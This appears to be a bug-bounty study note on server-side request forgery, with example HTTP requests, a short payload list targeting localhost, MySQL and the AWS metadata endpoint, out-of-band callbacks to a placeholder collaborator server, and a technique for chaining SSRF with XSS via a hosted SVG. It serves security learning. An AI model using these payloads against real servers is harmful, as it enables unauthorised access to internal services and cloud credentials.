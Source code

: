 ""# 🚨 Server-Side Request Forgery (SSRF)

---

## 💡 **What is SSRF?**
**SSRF (Server-Side Request Forgery)** is a vulnerability that allows an attacker to make the server-side application send requests to unintended locations, potentially exposing sensitive data from internal servers or other resources.

---

## 🧠 **Example Scenario:**
A website sends a request to its database to check for a product:
```http
GET /example.txt?file=product.txt HTTP/1.1
Host: localhost:8000
User-Agent: example
Accept: */*
Connection: close
```

### 🔍 **Exploitation:**
By changing `product.txt` to `passwords.txt` or `http://localhost:8080`, an attacker might retrieve sensitive data.

---

## 🔗 **SSRF for Recon:**
```http
SSRF can be used for recon like this: http://internal-ip:port

lets take the first vulnarable endpoint
GET /example?url=product.txt HTTP/1.1
Host: example.com
User-Agent: example
Accept: */*
Connection: close
we can replace (product.txt) with http://internal-ip:port
which will look like this:
GET /example?url=http://192.168.1.1:80 HTTP/1.1
Host: example.com
User-Agent: example
Accept: */*
Connection: close
```

---

## 🚦 **Common Payloads For Internal Scanning:**
- `http://localhost:8000/admin`
- `http://127.0.0.1:3306` (MySQL)
- `http://169.254.169.254/latest/meta-data` (AWS Metadata)
- `http://internal-api.local/api/v1/users` (Accessing Internal APIs)

---

## 🔗 **Triggering Out-of-Band (OOB) Requests:**
- Use **Burp Collaborator**, **Interactsh**, or your own server to identify:
  - Internal hostnames
  - Egress points
  - Firewall rules

**Example:**
```http
GET /vulnerable-endpoint?url=http://your-collaborator-server.com
```

---

## 🔗 **Chaining SSRF with Other Bugs:**
you can chain ssrf with bugs like **XSS** (Check my xss note for more detailed info about it):
```http
the endpoint will look like this:
GET /example.txt?file=product.txt HTTP/1.1
Host: localhost:8000
User-Agent: example
Accept: */*
Connection: close

you can make the server-side app retrieve a file that you hosted on your server which has malicious code Like this:
GET /example.txt?file=http://yourWebsite/XSS.svg HTTP/1.1
Host: localhost:8000
User-Agent: example
Accept: */*
Connection: close
```

---

## 🎯 **Impact:**
The severity ranges from **medium** to **critical** based on the data exposed.

---

## 💡 **Tips for Finding SSRF:**
- Can sensitive data be accessed?
- Is privilege escalation possible?
- Can SSRF lead to **lateral movement** within the network?
- Is there potential for **chaining** with other bugs?
- Always explore escalation opportunities!

---

## 🌐 **Where to Look for SSRF Vulnerabilities:**

### 1. **URL Fetching Functionality:**
- File Uploads
- Image/Media Previews
- PDF Generation (e.g., **wkhtmltopdf**)
- Social Media Embeds

### 2. **Webhooks & Integrations:**
- Webhook Callbacks
- Third-Party API Integrations

### 3. **File Retrieval & Proxying:**
- File Download Endpoints
- HTTP Proxy Functionality
- URL Shorteners

### 4. **Import/Export Features:**
- Data Imports (CSV, XML, JSON)
- Feeds & Syndication (RSS/Atom)

### 5. **API Interactions:**
- GraphQL or REST APIs with URL parameters
- Cloud Metadata Services (AWS, GCP, Azure)

### 6. **Admin Panels & Internal Tools:**
- Admin Functionality for Fetching URLs
- Monitoring & Debug Tools

### 7. **Uncommon Protocols:**
- `file://`, `gopher://`, `ftp://`, `dict://`
- Email Services (`mailto:` interaction with SMTP servers)

---

## 📚 **Helpful Resources:**
1. 📝 **PortSwigger SSRF Topic:** [Read more](https://portswigger.net/web-security/ssrf)
2. 🎓 **Snyk SSRF Lesson:** [Learn here](https://learn.snyk.io/lesson/ssrf-server-side-request-forgery/)
3. 📖 **Medium Writeups:**
   - [Bypassing SSRF Protection](https://vickieli.medium.com/bypassing-ssrf-protection-e111ae70727b)
   - [Highest Bounty Ever](https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb)
   - [SSRF to Server Takeover](https://medium.com/@malvinval/ssrf-to-server-takeover-poc-bug-bounty-writeup-82d6715e333d)
   - [HackerOne SSRF Story](https://medium.com/@josekuttykunnelthazhebinu/how-i-uncovered-an-ssrf-vulnerability-in-a-private-hackerone-program-4c3146b414ff)

---
""

